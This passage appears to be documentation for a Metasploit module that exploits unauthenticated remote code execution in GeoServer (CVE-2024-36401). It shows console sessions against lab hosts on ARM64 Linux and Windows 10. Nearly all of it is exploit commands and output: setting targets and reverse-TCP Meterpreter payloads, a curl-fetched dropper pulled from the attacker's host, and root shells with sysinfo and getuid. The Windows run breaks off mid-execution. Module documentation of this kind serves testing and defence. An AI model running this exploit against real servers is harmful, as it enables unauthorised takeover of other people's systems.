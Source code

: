 ```msf
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/opt
meterpreter >
```
###  GeoServer 2.23.5 on ARM64 Raspberry PI-4 Kali Linux 2024.4 - linux/aarch64/meterpreter_reverse_tcp
```msf
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/aarch64/meterpreter_reverse_tcp
payload => linux/aarch64/meterpreter_reverse_tcp
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.23.5
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/680jWmUv1qm
[*] Client 192.168.201.10 (curl/8.5.0) requested /680jWmUv1qm
[*] Sending payload to 192.168.201.10 (curl/8.5.0)
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 12 opened (192.168.201.8:4444 -> 192.168.201.10:60692) at 2024-07-11 21:04:34 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/usr/share/geoserver
meterpreter >
```
### GeoServer 2.25.0 on x64 Windows 10 (10.0 Build 19045)
```
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 2
target => 2
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target appears to be vulnerable. Version 2.25.0
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
```
